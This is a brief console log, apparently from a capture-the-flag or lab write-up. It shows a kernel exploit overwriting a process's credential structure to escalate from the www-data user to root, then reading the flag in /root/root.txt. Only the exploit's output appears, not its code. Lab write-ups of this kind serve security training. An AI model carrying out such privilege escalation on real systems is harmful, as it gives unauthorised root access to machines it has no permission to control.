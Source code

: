 ```console
[*] Cred structure at ffff8f2871321b00
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8f2871321b00
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
b2b17036da1de94cfb024540a8e7075a
```
